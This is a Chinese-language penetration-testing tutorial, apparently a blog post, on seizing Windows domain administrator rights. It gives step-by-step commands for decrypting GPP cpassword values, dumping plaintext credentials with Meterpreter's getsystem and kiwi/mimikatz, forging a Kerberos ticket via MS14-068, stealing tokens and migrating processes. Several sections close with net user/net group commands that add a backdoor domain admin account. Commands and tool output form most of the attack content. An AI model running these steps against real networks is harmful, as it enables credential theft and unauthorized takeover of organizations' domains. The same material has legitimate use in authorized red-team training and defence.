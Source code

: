 在大多数情况下，攻击者可以通过定位域管理员所登录的服务器，利用漏洞获取服务器system权限，找到域管理的账号、进程或是身份验证令牌，从而获取域管理员权限。下面是几种常见的获取域管理员权限的方式。

利用GPP漏洞获取域管理权限

SYSVOL是域内的共享文件夹，用来存放登录脚本、组策略脚本等信息。当域管理员通过组策略修改密码时，在脚本中引入用户密码，就可能导致安全问题。
（1）访问SYSVOL共享文件夹，搜索包含“cpassword”的XML文件，获取AES加密的密码。
（2）使用kali自带的gpp-decrypt进行破解，从而获取域账号密码，直接登录域管理员账号获取访问权限。

获取服务器明文登录密码

使用kiwi模块需要system权限，所以我们在使用该模块之前需要将当前MSF中的shell提升为system。提到system有两个方法，一是当前的权限是administrator用户，二是利用其它手段先提权到administrator用户。然后administrator用户可以直接getsystem到system权限。
Default
meterpreter > getuid
Server username: BYPASS-E97BA3FC\Administrator
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
加载kiwi模块
Default
load kiwi
列举系统中的明文密码
Default
creds_all

使用MS14-068漏洞进行提权

MS14068是一个能够使普通用户提权到域控权限的权限提升漏洞。攻击者可以通过构造特定的请求包来达到提升权限的目的。

第一步：利用MS14-068伪造生成TGT
Default
MS14-068.exe -u bypass@test.com -p abc123! -s S-1-5-21-735015318-3972860336-672499796 -d  dc.test.com

第二步：利用mimikatz将工具得到的TGT票据写入内存，创建缓存证书
Default
mimikatz#kerberos::ptc TGT_bypass@test.com.ccache

第三步：获取域管理员权限。创建一个 test 账号并加入域管理员组，从而随时可以登录域控主机进行操作。
Default
PsExec.exe \\dc cmd.exe
 
// 添加test用户
net user test abc123! /add /domain
// 把 test 用户添加进域管理员组
net group "domain admins"  test /add /domain
// 查看域管理员
net group "domain admins" /domain 

窃取域管理员令牌

当有域控账户登陆至服务器时可使用令牌模拟进行渗透取得域控权限。
1、入侵域管理员所在的服务器，窃取域管理员的令牌，从而控制整个域。
2、直接在meterpreter shell上执行添加域管理员
Default
add_user test abc123! -h 域控的IP地址
add_group_user "Domain Admins" test -h 域控IP地址

进程迁移

入侵了域管理员所登录的服务器，将进程迁移到域管理员所运行的进程，就可以获得域管理员权限。
1、获取域管理员列表
Default
net group "Domain Admins" /domain

2、利用ps找到域管理员（TEST\bypass）所运行的进程，然后将shell进程迁移到域管理员所运行的进程中，成功后就获得了域管理员权限。
3、输入shell命令获取OS shell，在本机上使用Windows命令添加新的域管理员：
Default
// 添加test用户
net user test admin@123 /add /domain
// 把 test 用户添加进域管理员组
net group "domain admins"  test /add /domain

4、成功添加了域管理员账号test。